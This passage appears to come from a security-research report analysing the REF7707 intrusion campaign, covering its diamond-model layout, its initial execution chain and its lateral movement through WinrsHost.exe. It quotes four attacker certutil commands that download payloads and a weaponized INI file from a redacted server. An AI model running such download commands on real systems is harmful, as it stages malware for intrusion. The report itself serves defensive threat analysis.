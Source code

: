 While parts of the campaign showed a high level of planning and technical competence, numerous tactical oversights exposed malware pre-production samples, infrastructure, and additional victims.

### Campaign layout (the diamond model)

Elastic Security Labs utilizes the [Diamond Model](https://www.activeresponse.org/wp-content/uploads/2013/07/diamond.pdf) to describe high-level relationships between adversaries, capabilities, infrastructure, and victims of intrusions. While the Diamond Model is most commonly used with single intrusions and leveraging Activity Threading (section 8) to create relationships between incidents, an adversary-centered (section 7.1.4) approach allows for a — although cluttered — single diamond.

![REF7707 - Diamond Model](/assets/images/fragile-web-ref7707/image1.png "REF7707 - Diamond Model")

## Execution Flow

### Primary execution chain

REF7707 was initially identified through Elastic Security telemetry of a South American nation’s Foreign Ministry. We observed a common LOLBin tactic [using Microsoft’s certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) application to download files from a remote server and save them locally.

```
certutil  -urlcache -split -f https://[redacted]/fontdrvhost.exe C:\ProgramData\fontdrvhost.exe

certutil  -urlcache -split -f https://[redacted]/fontdrvhost.rar C:\ProgramData\fontdrvhost.rar

certutil  -urlcache -split -f https://[redacted]/config.ini C:\ProgramData\config.ini

certutil  -urlcache -split -f https://[redacted]/wmsetup.log C:\ProgramData\wmsetup.log
```

The web server hosting `fontdrvhost.exe`, `fontdrvhost.rar`, `config.ini`, and `wmsetup.log` was located within the same organization; however, it was not running the Elastic Agent. This was the first lateral movement observed and provided insights about the intrusion. We’ll discuss these files in more detail, but for now, `fontdrvhost.exe` is a debugging tool, `config.ini` is a weaponized INI file, and `fontdrvhost.rar` was not recoverable.

#### WinrsHost.exe

[Windows Remote Management’s Remote Shell plugin](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (`WinrsHost.exe`) was used to download the files to this system from an unknown source system on a connected network. The plugin is the client-side process used by Windows Remote Management. It indicates that attackers already possessed valid network credentials and were using them for lateral movement from a previously compromised host in the environment. How these credentials were obtained is unknown; it is possible that the credentials were obtained from the web server hosting the suspicious files.

![WinrsHost.exe is used to execute commands](/assets/images/fragile-web-ref7707/image4.png "WinrsHost.exe is used to execute commands")

The attacker downloaded `fontdrvhost.exe`, `fontdrvhost.rar`, `config.ini`, and `wmsetup.log` to the `C:\ProgramData\` directory; from there, the attacker moved to several other Windows endpoints. While we can’t identify all of the exposed credentials, we noted the use of a local administrator account to download these files.
